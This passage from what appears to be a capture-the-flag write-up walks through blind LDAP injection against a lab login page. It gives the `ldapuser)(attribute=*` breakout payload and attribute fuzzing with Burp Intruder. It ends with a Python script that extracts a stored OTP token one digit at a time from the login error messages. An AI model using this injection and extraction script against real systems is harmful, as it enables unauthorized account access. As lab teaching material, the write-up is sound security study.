 We can try to breakout of one of the conditions and add our own which will contain the attribute we are testing the existence of.

This can be done by sending something like `ldapuser)(attribute=*` as the username (double URL-encoded). 

This will then result in the following "hypothetical" query:


```ldap
(&
  (username=ldapuser)
  (attribute=*)
  (otp=<USERINPUT>)
)
```

If the attribute doesn't exist we won't get the "Cannot login" error message.

Using burp intruder, we can fuzz every attribute in our wordlist and see for which ones we get "Cannot login" in the response 

{{<figure src="/img/htb/ctf/attribute_fuzzing_intruder.png" position=center caption="Setting up Burp Intruder">}}

{{<figure src="/img/htb/ctf/valid_attributes.png" position=center caption="Valid LDAP attributes">}}

Among this list of valid attributes, `pager` seems to be a good candidate for containing a 81 digits token. We can verify it by using the same method as we did in the username enumeration.

### Token leak
___
We can use a slightly modified version of the previous script:

```python
import requests
import string
import time

letters = list(string.ascii_lowercase)
digits = [int(d) for d in "1234567890"]
url = 'http://10.10.10.122/login.php'

def guess_next_char(current_guessed_string):
    for digit in digits:
        time.sleep(0.3)
        data = {
            "inputUsername": f"ldapuser%29%28pager%3d{current_guessed_string}{digit}%2a",
            "inputOTP": "1234",
        }
        response = requests.post(url, data=data)
        if "Cannot login" in response.text:
            return str(digit)

    print("END")
    exit(1)

token = ""
while True:
    token += guess_next_char(token)
    print(token)
```
